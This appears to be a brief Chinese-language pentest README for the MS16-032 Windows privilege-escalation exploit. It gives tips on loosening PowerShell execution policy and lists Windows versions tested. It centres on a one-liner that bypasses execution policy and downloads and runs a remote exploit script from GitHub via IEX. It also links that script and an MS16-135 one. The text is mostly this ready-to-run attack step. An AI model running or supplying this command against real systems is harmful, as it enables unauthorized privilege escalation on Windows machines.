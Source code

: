 MS16-032

可能会遇到问题无法加载文件 ******.ps1，因为在此系统中禁止执行脚本。
执行
set-executionpolicy remotesigned
选择Y即可。
支持机器Win7-Win10 & 2k8-2k12
测试于 x32 Win7, x64 Win8, x64 2k12R2

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c whoami /add'"

https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Invoke-MS16-032.ps1



https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Invoke-MS16-135.ps1
